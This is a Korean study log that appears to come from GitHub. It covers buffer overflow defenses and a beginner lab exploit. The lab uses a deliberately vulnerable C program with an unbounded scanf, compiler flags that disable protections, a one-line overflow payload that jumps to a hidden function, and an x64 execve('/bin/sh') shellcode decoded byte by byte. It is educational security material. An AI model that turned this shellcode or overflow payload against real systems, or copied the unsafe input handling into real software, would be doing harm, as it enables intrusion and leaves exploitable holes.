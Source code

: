 # 📅 YYYY.MM.DD Study Log

## 📌 오늘 배운 개념 요약

- 
- 
- 

---

## ✅ Buffer Overflow 방어 기술 (정리 예시)

###rax, rbx, rsp, rbp 를 배웠다.


##x64 환경에서 존재하는 BOF 방어 기법들
1. **Canary** => sfp,ret 의 정보를 저장할 때, bof공격으로 덮어씌어지는 것을 방지하기 위해 sfp와 buffer 사이에 임의의 값을 추가함. 이게 변조된다? ==> bof로 탐지.
3. **ASLR**(Address Space Layout Randomization) ==> 메모리 랜덤화.
4. **PIE**(Position Independent Execution)
5. **NX**(Non excutable)

![image](https://github.com/user-attachments/assets/2c709cf7-8554-41fd-89d6-5c266a306a07)
![image](https://github.com/user-attachments/assets/d963f3ad-1d72-4610-b77e-2642e1d5ccee)


#include <stdio.h>

void secret(){
        printf("You hacked me!\n");
}
int main(){
        char buf[64];

        printf("Input: ");
        scanf("%s", buf);

        printf("You typed: %s\n", buf);

        return 0;
}


해당 코드의 scanf의 취약점을 활용하려 bof를 시도했다.
조건 

$gcc -g -fno-stack-protector -no-pie -o bof1 bof1.c
==> canary, aslr

파일에 설정된 보호기법 확인?
checksec --file=파일명

payload 작성
buffer[64] + SFP[8] + 덮어쓸 주소[8]

gdb ./bof1
p $secret ==> secret 함수의 주소를 찾음.
python3 -c 'print("A"*64 + "B"*8 + "해당 주소")' | ./bof1
//출력: You hacked me!  

확인해보니 NX가 켜져있다. 다만 NX는 스택에서 실행되는 쉘코드를 막는 것! 나는 그냥 주소만 넣었을 뿐.




머신코드?
\x48\x31\xc0\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05  


***\x48\x31\xc0***  
\x48 ==> REX prefix ==> 64비트 연산한다. rax rbx 쓸거다?  
\x31 ==> opcode  
\xc0 ==> ModR/M 바이트. 11000000 (rax 두개 쓸거다)    
       =xor rax, rax  
       
***\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00***  
\x48 ==> REX prefix  
\xbb ==> mov r64,imm64  OR  mov r32,imm32      ==> 미리 prifix 해두었기에 movabs rbx, imm64 (만약 없으면 32bit로 쓰임)  
\x2f\x62\x69\x6e\x2f\x73\x68\x00 ==> 리틀엔디언으로 '/bin/sh\0'  
       =movabs rbx, 0x0068732f6e69622f  
***\x53***  
\x53 ==> push rbx (리틀엔디언 형식으로 저장!!! )  
       = push rbx  
***\x48\x89\xe7***  
\x48  
\x89 ==> mov r/m64, r64 "오른쪽 레지스터 값을 왼쪽에 복사."  
\xe7 ==> 11100111 mod = 11, reg = 100, rsp = 111  
       = mov rdi, rsp (rdi 레지스터에 /bin/sh 문자열의 주소를 넣음)  
(참고자료)
![image](https://github.com/user-attachments/assets/00e78af8-872f-436e-aa93-639cd4fa5b7d)
![image](https://github.com/user-attachments/assets/1ab48fb3-2ebc-4576-b025-982a90972a25)

EAX	ECX	EDX	EBX	ESP	EBP	ESI	EDI  
000	001	010	011	100	101	110	111  

      
***\x48\x31\xf6***  
\x48 익숙하죠?  
\x31 ==> opcode xor r/m64, r64  
\xf6 ==> 11110110 mod = 11, reg = 000???, rm = 110  
       = xor rsi, rsi (rsi 레지스터를 0으로 초기화 = execve의 두번째 인자 NULL)  

***\x48\x31\xd2***  
\x48  
\x31  
\xd2 ==> mod = 11010010 mod = 11, reg = 010, rm = 010  
      = xor rdx, rdx (rdx 레지스터를 0으로 초기화 = 3번째 인자 NULL)  
***\xb0\x3b***  
\xb0 ==> mov al, immm8 (8비트를 al에 넣는다.)  
\x3b ==> 59(system call number 59.== execve)  
      = mov al, 0x3b  

시스템콜 넘버는  
/usr/include/x86_64-linux-gnu/asm/unistd_64.h 여기서  cat해서 찾아보면 됨.  

***\x0f\x05***  
      = syscall (opcode)  

모두 합치면?  
xor rax, rax  
movabs rbx,  0x0068732f6e69622f  
push rbx  
mov rdi, rsp  
xor rsi, rsi  
xor rdx, rdx  
mov al, 0x3b  
syscall   




---

## 🧠 오늘의 느낀 점 ☑️


---
## ❓ 오늘의 궁금한 점 🔍


---

## 🔖 내일 목표 🎯

- [ ] CTF 문제 1개 풀고 write-up 작성
- [ ] 오늘의 궁금한 점 중 1개는 gdb로 실험
- [ ] 쉘코드 흐름 복습 및 시각화 정리


